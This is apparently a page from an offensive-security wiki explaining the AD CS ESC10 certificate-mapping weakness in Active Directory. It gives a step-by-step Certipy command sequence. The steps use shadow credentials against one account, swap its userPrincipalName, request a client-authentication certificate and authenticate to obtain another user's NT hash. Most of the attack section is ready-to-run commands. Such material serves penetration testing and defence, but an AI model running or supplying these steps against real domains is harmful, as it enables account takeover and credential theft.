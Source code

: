 This ESC refers to a weak configuration of the registry keys:

* Case 1 :
  * `StrongCertificateBindingEnforcement` set to `0`, meaning no strong mapping is performed
  * A template that specifiy client authentication is enabled (any template, like the built-in `User` template)
  * `GenericWrite` right against any account A to compromise any account B

{% hint style="warning" %}
At the time of writting (06/08/2022), there is no solution as a low privileged user to read the `StrongCertificateBindingEnforcement` value. It is worth to try the attack hopping the key is misconfigured.
{% endhint %}

{% tabs %}
{% tab title="Unix-like" %}
From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC10 scenario.

In this scenario, **user1** has `GenericWrite` against **user2** and want to compromise **user3**.

First, the **user2**'s hash is needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example.

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of **user2** is changed to **user3**.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3
```

A certificate permitting client authentication can be requested as **user2**.

```bash
certipy req -username "user2@$DOMAIN" -hash "$NT_HASH" -ca 'ca_name' -template 'User'
```

The **user2**'s UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authenticating with the obtained certificate will provide the **user3**'s NT hash with [UnPac the hash](../kerberos/unpac-the-hash.md). The domain must be specified since it is not present in the certificate.

```bash
certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"
```

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS
{% endhint %}
{% endtab %}
